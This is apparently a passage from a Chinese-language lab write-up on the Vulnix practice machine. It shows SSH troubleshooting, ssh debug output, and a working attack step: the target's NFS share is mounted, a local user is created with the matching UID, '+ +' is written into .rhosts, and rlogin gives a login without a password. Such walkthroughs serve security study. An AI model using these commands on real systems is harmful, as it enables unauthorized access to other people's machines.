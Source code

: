 ```shell
sudo service ssh restart
# sudo systemctl restart sshd
```

如果你确认以上步骤都没有问题，但仍然无法使用密钥对认证登录，你可能需要检查 SSH 服务器的日志文件（通常是 `/var/log/auth.log` 或 `/var/log/secure`），查看是否有与密钥认证相关的错误消息。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402142335744.png" alt="image-20240214174855508" style="zoom:50%;" />

嘶，这里电脑卡死了，重启一下了，使用kali了！无果，还是需要密码。。。。

### 修改rhosts登录

我有一个想法。。。。重新来：

```shell
sudo su
mount -t nfs 192.168.244.183:/home/vulnix  /tmp/nfs
useradd -u 2008 vulnix
cd nfs
# ls -la
echo + + > .rhosts
# cat .rhosts
chmod 644 .rhosts
# new terminal
rlogin -l vulnix 192.168.244.183
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402142335745.png" alt="image-20240214201801969" style="zoom:50%;" />

> rlogin语法
>
> rlogin(选项)(参数)
>
> - 8：允许输入8位字符数据；
> - e：脱离字符>：设置脱离字符；
> - E：滤除脱离字符；
> - l ：用户名称>：指定要登入远端主机的用户名称；
> - L：使用 litout 模式进行远端登入阶段操作。

### 修改sshd文件实现登录（失败）

经过师傅提点，使用`-vvv`查看报错信息：

```shell
ssh -i /root/.ssh/id_rsa vulnix@192.168.244.183 -vvv
```

```text
OpenSSH_9.6p1 Debian-3, OpenSSL 3.1.4 24 Oct 2023
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug2: resolve_canonicalize: hostname 192.168.244.183 is address
debug3: expanded UserKnownHostsFile '~/.ssh/known_hosts' -> '/root/.ssh/known_hosts'
debug3: expanded UserKnownHostsFile '~/.ssh/known_hosts2' -> '/root/.ssh/known_hosts2'
debug3: channel_clear_timeouts: clearing
debug3: ssh_connect_direct: entering
debug1: Connecting to 192.168.244.183 [192.168.244.183] port 22.
debug3: set_sock_tos: set socket 3 IP_TOS 0x10
debug1: Connection established.
debug1: identity file /root/.ssh/id_rsa type 0
debug1: identity file /root/.ssh/id_rsa-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_9.6p1 Debian-3
debug1: Remote protocol version 2.0, remote software version OpenSSH_5.9p1 Debian-5ubuntu1
debug1: compat_banner: match: OpenSSH_5.9p1 Debian-5ubuntu1 pat OpenSSH_5* compat 0x0c000002
debug2: fd 3 setting O_NONBLOCK
```
